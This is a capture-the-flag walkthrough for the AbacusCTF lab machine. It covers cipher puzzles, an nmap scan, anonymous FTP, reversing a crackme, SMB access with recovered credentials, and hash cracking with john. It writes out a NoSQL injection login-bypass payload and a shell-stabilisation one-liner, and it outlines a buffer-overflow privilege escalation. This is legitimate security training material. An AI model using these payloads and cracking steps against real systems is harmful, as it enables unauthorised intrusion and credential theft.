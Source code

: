# Walkthrough

### flag1 [stegnography]

1. strings abacusqn1.jpg | less
   interesting output printable texts

    [ A fine day , hwhlvr{phrdajprxg} ]

    - A fine day , it means affine cipher

    By using some online crackers for affine cipher
    Eg: https://www.boxentriq.com/code-breaking/affine-cipher

    The flag is abacus{easydoesit}

#### Port Scanning nmap results

```bash
nmap -sC -sV -oA nmap/ 10.10.107.164

Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 15:15 IST
Nmap scan report for 10.10.107.164
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rwxr-xr-x    1 ftp      ftp         14472 Apr 22 15:05 crackme
|_-rw-r--r--    1 ftp      ftp          1012 Apr 22 15:05 message.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.17.36.149
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
5000/tcp open  http        Node.js Express framework
| http-robots.txt: 1 disallowed entry
|_/abacus{s1mpu-th3-p1mpu} /needle
|_http-title: Employee Site
Service Info: Host: Welcome; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: VAGRANT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-23T09:46:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.88 seconds


```

### flag2 [robots.txt]

1. As port 5000 is running a webserver
   in http://10.10.107.164:5000/robots.txt

    abacus{s1mpu-th3-p1mpu}

### flag3 and flag4 [ftp]

    [Automation Script All](https://github.com/blessingcharles/AbacusCTF/tree/main/utilities)

1. port21 anonymous login enabled

    ```bash
        get crackme
        get message.txt
    ```

    - For exploiting the given two binaries you can find the automation scripts in
      [Automation Script FTP](https://github.com/blessingcharles/AbacusCTF/tree/main/utilities/ftp)

##### message.txt

    Important hints from mr.th3h04x
    ```text
        1. printed text of "ch3c00h sheizsjddcqpnodv"
        2. 5c86511993d156bb079996d6abbe5aa83698602d321e37c49324915074002ae7a1af
        7c2909f1d840ad47bdb3b8cacd419f6b3ba889c58725c1d14e93453ed473
        3.  4 drinks
    ```

    ch3cooh means acetic acid which signifies vinegar which means the given text is
    vigenere cipher sheizsjddcqpnodv . 4 drinks signified the key used for the cipher
    text length is 4.

        Reverse engineer the algo:
            We need to permute a 4 len key and use vigenere algorith with the cipher
        text , untill it matched the sha512 hash given by the printer administrator

        Flag : thomasthecatoonz

##### crackme

    ```bash
        file crackme
        crackme: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /
        lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f54f0900763a3113ac2c837e2bcd6f5ce9e78bd3, for GNU/Linux 3.2.0, stripped
    ```

    - Its an stripped elf64 binary so if we reverse engineer it with gdb , r2 or ghidra etc.
    - The binary is expecting a password in cmdline arguments

    ```bash
        r2 crackme
        s main
        s fcn.000011fe
    ```
    By reversing the algo the two main things we found
    ```python
        hasher = [0x43, 0x12, 0x13, 0x21, 0x64, 0x42,
                0x13, 0x52, 0x15, 0x32, 0x19, 0x13,
                0x23, 0x61, 0x14, 0x51, 0x28, 0x12,
                0x13, 0x32, 0x12, 0x42]

        hash_passwd = [0x22, 0x70, 0x72, 0x42, 0x11, 0x31,
                        0x68, 0x34, 0x67, 0x3, 0x2a, 0x7d,
                        0x47, 0x54, 0x72, 0x61, 0x5a, 0x21,
                        0x65, 0x1, 0x60, 0x3f]
    ```
    flag: [+] Cracked :  abacus{fr13nd5f0r3v3r}

### flag 5 and 6 [smb]

The previous flags are used as username and password for smbclient

```bash
    smbclient //10.10.107.164/thomasthecatoonz -U thomasthecatoonz
    Enter WORKGROUP\thomasthecatoonz's password:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Fri Apr 22 19:56:04 2022
      ..                                  D        0  Fri Apr 22 19:56:04 2022
      chutney                             N      880  Sat Apr 23 08:50:41 2022
      message.txt                         N      966  Sat Apr 23 08:50:41 2022
      secretchat                          N    21948  Sat Apr 23 08:50:42 2022
```

##### flag5 : chutney

    - As mentioned in the message.txt chutney it means pickled object of python
    so by doing reverse engineering the file we can get the flag

    Automation script in github
    abacus{1p4v#dr45ht1}  ---- Employee secret

##### flag6 : secretchat

    - In the chats we can see thomas and jerry talks about jwt secret
    - jerry shares his jwt secret in sha512 after cracking we found that armageddon391

    ```sha512
        Jerry: 60aa4d765ead6dcf8248681c5a444502fa23f9c26fd8885d7ae2571ee67558c6e6b1b33c2c6450d443baeadb3413058c5eeeb67d87f88da9584afa6c4a130586
    ```

    ```bash
     john --wordlist=/usr/share/wordlists/rockyou.txt myhash --format=raw-sha512
    ```

### flag 7 and 8 [Webserver]:

##### flag 7[No sql injection]

    ```json
        {"email":{
            "$gt":""
        },"password":{
            "$gt":""
        },"employeeSecret":"1p4v#dr45ht1"}
    ```
    url : http://10.10.28.23:5000/login
    In localstorage we can get the flag and token
    abacus{user_31k4n1h4n125td}

##### flag 8[jwt bypass]

    - with the ssh username and password we can login as user
    - for stabilizing the shell
    ```bash
        python3 -c 'import pty;pty.spawn("/bin/bash")'
    ```

#### user.txt

```bash
    cat .user.txt
```

#### root.txt

    - A service is running as port 8036 running as root so we can exploit it and get root
    - Vulnerability buffer overflow
    - We need to bruteforce the stack canary , rbp , rip to bypass aslr , pie mitigations
    - We need to use ROPgadgets to get root shell

```bash
    cat .root.txt
```
